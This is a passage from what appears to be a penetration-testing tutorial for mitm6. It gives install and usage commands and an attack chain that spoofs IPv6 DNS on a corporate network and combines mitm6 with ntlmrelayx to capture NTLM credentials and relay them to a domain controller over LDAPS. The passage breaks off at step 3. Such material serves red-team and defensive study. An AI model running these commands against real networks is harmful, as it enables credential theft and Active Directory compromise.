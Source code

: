 ```bash
# Using pip
pip3 install mitm6

# From source
git clone https://github.com/fox-it/mitm6.git
cd mitm6
pip3 install -e .
```

### Basic Usage

```bash
# Basic usage
sudo mitm6 -i eth0

# Target a specific domain
sudo mitm6 -d example.local -i eth0

# Verbose mode
sudo mitm6 -v -i eth0
```

### Example: DNS Takeover via IPv6

This example demonstrates a complete attack chain using MITM6 to take over DNS resolution and capture credentials:

1. **Start MITM6 to become the IPv6 router and DNS server**:

```bash
# Target the corporate domain
sudo mitm6 -d corporation.local -i eth0
```

MITM6 works by:
- Responding to DHCPv6 requests with malicious IPv6 configuration
- Setting itself as the DNS server for IPv6
- Providing a fake IPv6 address for itself as the default gateway
- Responding to DNS queries for the targeted domain

2. **Combine with ntlmrelayx to capture credentials and relay authentication**:

```bash
# In a separate terminal
# Set up ntlmrelayx to capture NTLM credentials
sudo ntlmrelayx.py -6 -t ldaps://dc01.corporation.local -wh fakewpad.corporation.local -l loot
```

The ntlmrelayx component:
- Creates a fake WPAD server (Web Proxy Auto-Discovery)
- Captures NTLM authentication attempts
- Relays authentication to specified targets
- Can create new domain users or dump LDAP information

3. **Monitor the attack progress**:
